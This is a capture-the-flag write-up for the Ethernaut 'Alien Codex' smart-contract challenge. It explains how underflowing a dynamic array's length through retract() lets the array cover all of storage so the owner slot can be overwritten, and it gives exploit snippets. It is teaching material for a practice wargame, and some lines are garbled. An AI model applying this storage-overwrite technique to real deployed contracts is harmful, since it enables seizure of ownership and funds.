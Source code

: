 **Challenge description**

You've uncovered an Alien contract. Claim ownership to complete the level.

    Understanding how array storage works
    Understanding ABI specifications
    Using a very underhanded approach

--------
**Analysis**

First look at the contract code nothing comes to my mind. The Ownable contract is actually `openzeppelin` Ownable and I looked into its source code and the only useful thing I got is it saves `address owner`.

 Looking back to the challenge description I noticed the array in storage part. Dynamic structures have a length property that takes a normal position in the stack and from it we can look for the array data in the stack. We have to use `keccack265(length_position)` to find the first slot of array data.

So how can we -----
**Exploitation** that ?

![Alien Codex method](https://res.cloudinary.com/dsdvvwb8v/image/upload/v1659138017/86f1f291d81ff664dbe3c9afd11c315bb31de2e0a3283a0f8d964b43e9bf44eb_tcxxpp.png)  

We got 2 slots taken from the whole storage. If we make the length of the array takes up the whole storage then we can overwrite any value of it. `retract` allows that, the `array.length` is `uint256`. 

After taking up the whole storage we need to find the position of the owner variable.
Our current storage layout is.

```js
/* STORAGE
* [0]: contract + owner , 
* [1]: codex
* keccak256(1) : codex[0]
*       ..
*        ..
* [2^256]: 0x000000000
*/
```

We want to overlap and get to slot[0] to set it. We can calculate the index of that element by `2^256 - keccack(256)(1) +1`

-----
**Exploitation**

first we call the `retract` to set the array length to max.

```js
await contract.retract()
```

then we get our payload, here is a utils contract.

```js
contract Utils { 

    function getNumber() public pure returns (uint256){
      uint256 x =0;
        
        // return x-1 - uint256(keccak256(abi.encodePacked(uint256(1))))+1;
        
        return x - uint256(keccak256(abi.encodePacked(uint256(1))));
    }
}
```
